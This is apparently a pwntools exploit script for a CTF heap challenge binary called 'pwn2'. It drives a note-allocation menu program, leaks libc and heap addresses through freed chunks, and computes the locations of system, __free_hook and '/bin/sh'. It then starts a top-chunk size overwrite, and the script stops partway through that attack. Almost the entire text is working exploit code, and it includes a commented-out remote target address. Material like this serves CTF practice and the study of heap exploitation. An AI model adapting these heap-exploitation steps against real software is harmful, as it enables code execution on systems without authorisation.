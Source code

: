     from pwn import *
    import os
    
    context.log_level = 'debug'
    env = {'LD_PRELOAD':'./libc.so.6'}
    io = process('./pwn2',env=env)
    #io = remote('202.112.51.184',19007)
    elf = ELF('pwn2')
    libc = ELF('/libc.so.6')
    
    def add(size,content):
    	io.recvuntil('>>',timeout = 1)
    	io.sendline('1')
    	io.recvuntil('Please enter the length of the note:',timeout = 1)
    	io.sendline(str(size))
    	io.recvuntil('Please enter the data of the note:',timeout = 1)
    	io.sendline(content)
    def edit(idx,content):
    	io.recvuntil('>>')
    	io.sendline('2')
    	io.recvuntil('Please enter the index of the note:')
    	io.sendline(str(idx))
    	io.recvuntil('Please enter the data of the note:')
    	io.sendline(content)
    def delete(idx):
    	io.recvuntil('>>')
    	io.sendline('3')
    	io.recvuntil('Please enter the index of the note:')
    	io.sendline(str(idx))
    def show():
    	io.recvuntil('>>')
    	io.sendline('4')
    
    add(0x100,'A'*0x100)#0
    add(0x30,"B"*0x30)#1
    delete(0)
    #gdb.attach(io)
    show()
    io.recvuntil('note index 0 : ')
    leak = u64(io.recvuntil('1. allocate note')[0:6]+'\x00\x00')
    print hex(leak)
    libc_base = leak -0x58 - libc.symbols['__malloc_hook']-0x10
    log.success(hex(libc_base))
    free_hook = libc_base + libc.symbols['__free_hook']
    system_addr = libc_base + libc.symbols['system']
    bin_sh = libc_base + next(libc.search('/bin/sh'))
    
    add(0x100,'A'*0x100)#2
    add(0x30,'C'*0x30)#3
    add(0x30,'D'*0x30)#4
    add(0x30,'E'*0x30)#5
    delete(3)
    delete(4)
    show()
    io.recvuntil('note index 4 : ')
    leak_heap = u64(io.recvuntil('1. allocate note')[0:6]+'\x00\x00')
    top_addr = leak_heap + 0xc0
    log.success(hex(top_addr))
    fake_size = system_addr+free_hook-top_addr
    log.success(fake_size)
    edit(5,'E'*0x20+p64(0x30)+p64(0x40))
    